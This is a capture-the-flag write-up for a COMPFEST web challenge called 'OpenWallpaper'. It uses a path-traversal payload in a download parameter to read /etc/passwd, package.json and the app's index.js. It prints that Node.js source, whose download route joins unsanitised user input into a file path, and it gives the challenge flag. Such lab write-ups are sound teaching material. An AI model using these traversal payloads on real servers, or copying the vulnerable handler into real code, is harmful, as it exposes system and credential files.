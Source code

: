 OpenWallpaper (100)
===================


## Description
Don't you just love those cats?

[http://tenjin.compfest.web.id:10341](http://tenjin.compfest.web.id:10341)

## Write up
- The URL for downloading a wallpaper is `/download/?file=01.jpg`. A good (?) sign for LFI
- Let's try downloading /etc/passwd: `/download/?file=../../../../../../etc/passwd`... and it works
- Note that this is a Node.js app (as seen in the footer and `x-powered-by` express header)
- A common file in every Node.js app is the `package.json` in the root
of the project, so let's try searching for it:

```
/download/?file=package.json - fail
/download/?file=../package.json - success
```

- In the `package.json` file, we can see the main file: `index.js`, as `package.json` is located in root project directory, we can just access `/download/?file=../index.js` and see the source code:

```javascript
var express = require('express');
var fs = require('fs');
var app = express();

app.use(express.static(__dirname + '/public'));

app.put('/forbidden/path/', function(req, res) {
	res.json({
		flag: process.env.FLAG,
	});
});

app.get('/download/*', function(req, res) {
	var file = req.query.file;

	try {
		fs.accessSync('./download/' + file, fs.F_OK);
		res.download('./download/' + file);
	} catch (e) {
		res.status(500).end('Bad file path');
	}
});

app.listen(process.env.PORT || 3000);
```

- So if we just make a PUT HTTP Request to `/forbidden/path` we will get the flag: `COMPFEST9{aww_the_cats_are_so_cute}`.
